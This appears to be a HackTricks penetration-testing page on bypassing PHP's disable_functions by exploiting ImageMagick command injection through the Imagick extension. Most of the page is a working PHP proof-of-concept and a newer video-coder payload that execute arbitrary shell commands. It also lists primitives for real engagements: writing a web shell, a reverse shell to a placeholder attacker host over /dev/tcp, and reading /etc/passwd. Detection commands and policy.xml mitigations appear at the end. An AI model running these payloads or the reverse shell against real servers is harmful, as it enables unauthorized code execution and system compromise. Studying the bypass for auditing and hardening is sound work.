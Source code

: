 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

{{#include ../../../../banners/hacktricks-training.md}}

> The well-known *ImageTragick* family of bugs (CVE-2016-3714 et al.) allows an attacker to reach the underlying **ImageMagick** binary through crafted MVG/SVG input. When the PHP extension **Imagick** is present this can be abused to execute shell commands even if every execution-oriented PHP function is black-listed with `disable_functions`.
>
> The original PoC published by RicterZ (Chaitin Security Research Lab) in May 2016 is reproduced below.  The technique is still regularly encountered during contemporary PHP 7/8 audits because many shared-hosting providers  simply compile PHP without `exec`/`system` but keep an outdated Imagick + ImageMagick combo.

From <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>

```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```

---

## Why does it work?

1. `Imagick::readImage()` transparently spawns the **ImageMagick** *delegate* (`convert`/`magick`) binary.
2. The MVG script sets the *fill* to an external URI.  When a double quote (`"`) is injected, the remainder of the line is interpreted by `/bin/sh ‑c`  that ImageMagick uses internally → arbitrary shell execution.
3. All happens outside of the PHP interpreter, therefore *`disable_functions`*, *open_basedir*, `safe_mode` (removed in PHP 5.4) and similar in-process restrictions are completely bypassed.

## 2025 status – it is **still** relevant

* Any Imagick version that relies on a vulnerable ImageMagick backend remains exploitable.  In lab tests the same payload works on PHP 8.3 with **Imagick 3.7.0** and **ImageMagick 7.1.0-51** compiled without a hardened `policy.xml`.
* Since 2020 several additional command-injection vectors have been found (`video:pixel-format`, `ps:`, `text:` coders…).  Two recent public examples are:
  * **CVE-2020-29599** – shell injection via the *text:* coder.
  * **GitHub issue #6338** (2023) – injection in the *video:* delegate.

If the operating system ships ImageMagick < **7.1.1-11** (or 6.x < **6.9.12-73**) without a restrictive policy file, exploitation is straightforward.

## Modern payload variants

```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```

Other useful primitives during CTFs / real engagements:

* **File write**  – `... > /var/www/html/shell.php`  (write web-shell outside *open_basedir*)
* **Reverse shell** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerate** – `id; uname -a; cat /etc/passwd`

## Quick detection & enumeration

```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```

If the output shows the `MVG` or `URL` coders are *enabled* the target is probably exploitable.

## Mitigations

1. **Patch/Upgrade**  – Use ImageMagick ≥ *7.1.1-11* (or the latest 6.x LTS) and Imagick ≥ *3.7.2*.
2. **Harden `policy.xml`**  – explicitly *disable* high-risk coders:

   ```xml
   <policy domain="coder" name="MVG" rights="none"/>
   <policy domain="coder" name="MSL" rights="none"/>
   <policy domain="coder" name="URL" rights="none"/>
   <policy domain="coder" name="VIDEO" rights="none"/>
   <policy domain="coder" name="PS" rights="none"/>
   <policy domain="coder" name="TEXT" rights="none"/>
   ```

3. **Remove the extension**  on untrusted hosting environments.  In most web stacks `GD` or `Imagick` is not strictly required.
4. Treat `disable_functions` only as *defence-in-depth* – never as a primary sandboxing mechanism.

## References

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)
{{#include ../../../../banners/hacktricks-training.md}}
